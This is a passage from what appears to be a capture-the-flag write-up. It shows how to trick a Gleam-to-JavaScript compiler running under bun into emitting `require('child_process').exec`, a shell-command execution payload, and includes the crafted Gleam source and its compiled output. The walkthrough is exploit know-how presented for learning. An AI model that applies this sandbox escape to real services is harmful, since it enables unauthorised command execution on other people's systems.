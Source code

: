 ### Our `prompt` function is called!

The next step is to find a function in `bun`'s [globals](https://bun.sh/docs/api/globals) that we can call to execute some shell commands. 

A quite obvious one is `require` which lets us import arbitrary modules.

A common javascript payload for executing shell commands is to use:
```js
require("child_process").exec(cmd, callback)
```
This executes a shell command stored in `cmd`, and calls the function with the command's `error` `stdout` and `stderr`. 

Now we have to find some way to trick the compiler into thinking that the output of `require("child_process")` has an `exec` attribute.

First, we need to make the compiler **think** that the return value of `require` is a type that has an attribute `exec`. The following achieves this:

```rs
pub type Mod {
  Mod(exec: Nil)
}
pub fn require(a: String) -> Mod {
  let a = <<0:16-native>>
  Mod(Nil)
}
fn prompt(a: String) -> String {
  let a = <<0:16-native>>
  "a"
}
pub fn main() {
  let mod = require("child_process").exec
}
```
which compiles to:
```js
import { CustomType as $CustomType, toBitArray } from "./gleam.mjs";

export class Mod extends $CustomType {
  constructor(exec) {
    super();
    this.exec = exec;
  }
}

export function main() {
  let mod = require("child_process").exec;
  return mod;
}
```

We can see the `prompt` and `require` functions are deleted because the wasm compiler sets the mode for unsupported features to ignore instead of error as explained above.
